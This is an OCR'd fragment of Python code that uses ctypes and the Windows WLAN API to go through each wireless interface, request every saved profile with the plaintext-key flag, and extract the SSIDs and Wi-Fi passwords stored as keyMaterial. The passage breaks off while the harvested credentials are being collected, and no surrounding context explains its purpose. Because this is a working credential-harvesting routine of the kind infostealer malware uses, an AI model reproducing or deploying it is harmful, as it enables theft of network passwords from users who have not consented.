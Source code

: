 ```python
        # +0x00: dwNumberOfItems (DWORD)
        # +0x04: dwIndex (DWORD)  
        # +0x08: array of WLAN_INTERFACE_INFO
        
        num_interfaces = ctypes.c_uint32.from_address(interface_list_ptr).value
        
        all_profiles = []
        
        # For each interface
        for i in range(num_interfaces):
            # Get interface GUID (16 bytes at offset 0x08 + i*532)
            interface_offset = interface_list_ptr + 8 + (i * 532)
            interface_guid = (ctypes.c_ubyte * 16).from_address(interface_offset)
            
            # Get profile list
            profile_list_ptr = ctypes.c_void_p()
            result = wlanapi.WlanGetProfileList(
                client_handle,
                interface_guid,
                None,
                ctypes.byref(profile_list_ptr)
            )
            
            if result != 0:
                continue
            
            # Parse WLAN_PROFILE_INFO_LIST
            num_profiles = ctypes.c_uint32.from_address(profile_list_ptr).value
            
            for j in range(num_profiles):
                # Get profile name (512 WCHARs at offset 0x08 + j*516)
                profile_offset = profile_list_ptr + 8 + (j * 516)
                profile_name = ctypes.wstring_at(profile_offset)
                
                # Get profile XML
                profile_xml_ptr = ctypes.c_wchar_p()
                flags = 4  # WLAN_PROFILE_GET_PLAINTEXT_KEY
                
                result = wlanapi.WlanGetProfile(
                    client_handle,
                    interface_guid,
                    profile_name,
                    None,
                    ctypes.byref(profile_xml_ptr),
                    ctypes.byref(wintypes.DWORD(flags)),
                    None
                )
                
                if result == 0 and profile_xml_ptr:
                    # Parse XML to extract password
                    import xml.etree.ElementTree as ET
                    xml_str = ctypes.wstring_at(profile_xml_ptr)
                    
                    try:
                        root = ET.fromstring(xml_str)
                        # Find keyMaterial element
                        ns = {'ns': 'http://www.microsoft.com/networking/WLAN/profile/v1'}
                        key_elem = root.find('.//ns:keyMaterial', ns)
                        
                        if key_elem is not None:
                            password = key_elem.text
                            all_profiles.append({
                                'ssid': profile_name,
```